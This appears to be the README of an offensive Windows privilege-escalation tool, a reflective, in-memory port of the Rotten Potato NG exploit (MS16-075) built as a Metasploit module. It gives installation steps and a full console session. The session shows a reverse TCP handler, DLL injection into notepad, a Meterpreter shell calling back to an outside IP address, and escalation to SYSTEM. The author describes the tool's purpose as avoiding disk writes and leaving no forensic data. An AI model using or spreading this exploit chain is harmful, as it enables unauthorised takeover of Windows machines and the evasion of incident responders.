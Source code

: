 *This is a first draft and is subject to change by the end of the week. I'm aware of the bugs and plan on fixing them ASAP to make it more adaptable to certain situations.*

# About

A small project to port Rotten Potato NG for Reflection to avoid touching the disk and keep the entire attack in memory. Solves the problem of permissions issue and removes the need to leave forensic data. I prefer reflection of all things, which is why I chose to do this. Its a wonderful exploit to elevate from a service if you have the right privileges that is. And lukily, its unpatched :)

## Setup
As of late, the exploit will only work with the Metasploit framework due to an annoying issue with the thread not running as SYSTEM. Will be patched this week .

**Metasploit**

Grab the [Metasploit](ms16_075_reflection.rb) module, place it within the `~/.msf4/modules/exploits/windows/local/ms16_075_relection.rb`, and drop both the x86 & x64 DLL's within the same directory. 

Once you've achieved a shell of some sort, and the user you are running / impersonate as has the SeImpersonate privilege, run the module with your chosen payload. 

**Please Note: If you have an x86 session, but the computer is x64 , it will injection the x64 DLL. will fix ASAP. So as of now, just migrate to an x64 session so it cna inject the x64 DLL into x64 process. Havent quite figured this one out**

```msf exploit(windows/local/ms16_075_reflection) > run

[*] Started reverse TCP handler on 45.63.13.23:31334
[*] Launching notepad to host the exploit...
[+] Process 3448 launched.
[*] Reflectively injecting the exploit DLL into 3448...
[*] Injecting exploit into 3448...
[*] Exploit injected. Injecting payload into 3448...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 212.83.175.132
[*] Meterpreter session 16 opened (45.63.13.23:31334 -> 212.83.175.132:52436) at 2018-07-24 09:52:58 -0400

meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > impersonate_token 'NT AUTHORITY\SYSTEM'
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getsystem -t 1
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
